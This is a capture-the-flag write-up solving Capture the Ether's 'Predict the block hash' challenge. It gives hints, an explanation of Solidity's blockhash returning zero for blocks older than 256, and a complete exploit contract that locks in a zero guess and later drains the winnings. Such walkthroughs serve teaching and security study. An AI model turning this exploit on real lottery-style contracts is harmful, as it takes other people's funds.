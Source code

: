 ```yaml
---
description: >-
  In Capture the Ether's "Predict the block hash", we see an interesting
  business logic flaw that depends on the limitations of a Solidity global
  variable.
---
```


# Predict the block hash

This [challenge](https://capturetheether.com/challenges/lotteries/predict-the-block-hash/) involves a bit of outside-the-box thinking. We're asked to predict the value of a future block hash, an unknowable value at the time of our guess, and the implementation of the guess/settle logic is (_almost_) foolproof.

### Hints

<details>

<summary>Hint One</summary>

What happens when you try to get the block hash for a non-existent block number in your Solidity contract?

</details>

<details>

<summary>Hint Two</summary>

The solution depends in part on how many block hashes the blockhash function can be used to access. What might this limitation mean in light of the previous hint?

</details>

<details>

<summary>Hint Three</summary>

This solution will require some patience on your part!

</details>

### Full Walkthrough

If the code that handles locking in guesses and settling the transaction truly worked the way it appears at first glance, this challenge would not be possible. The secret to this exploit lies in the fact that Solidity's `blockhash` function will return a value for a non-existent block number, rather than throwing an error. If we call `blockhash` for a block number, for example, in the future, we get `0x0000000000000000000000000000000000000000000000000000000000000000`.&#x20;

Another interesting limitation of the `blockhash` function is that it can only access the last 256 blocks. If it is called for a block number prior to this, it returns the same `0x00...0` response as above.&#x20;

We can exploit this behavior by locking in a guess of `0x00...0` then waiting for enough blocks to settle that when the contract attempts to get the blockhash of `settlementBlockNumber`, which is locked in at the time we make our guess, it will also return `0x00...0`. As Ethereum has an average block time of 15 seconds, we need to wait at least 64 minutes before we can be reasonably sure our trick will work.

### Scripted Solution

```solidity
pragma solidity 0.8.7;

interface IPredictTheBlockHashChallenge {
    function lockInGuess(bytes32 hash) external payable;

    function settle() external;

    function isComplete() external view returns (bool);
}

contract PredictTheBlockHashChallengeExploit {
    IPredictTheBlockHashChallenge private _challengeContract;

    /**
     * Constructor sets `PredictTheBlockHashChallenge` contract.
     */
    constructor(address challengeContractAddress) {
        _challengeContract = IPredictTheBlockHashChallenge(
            challengeContractAddress
        );
    }

    /**
     * Locks in a guess of '0x00...0'.
     */
    function guess() external payable {
        // 0x0000000000000000000000000000000000000000000000000000000000000000
        bytes32 guess = blockhash(block.number - 257);

        // Lock in guess
        _challengeContract.lockInGuess{value: msg.value}(guess);
    }

    /**
     * Settles guess. Call at least 64 minutes after locking in guess.
     */
    function settle() external {
        // Settle
        _challengeContract.settle();

        // Ensure guess was correct
        require(
            _challengeContract.isComplete(),
            "PredictTheBlockHashChallengeExploit: Challenge not complete"
        );

        // Return contract balance to `msg.sender`
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

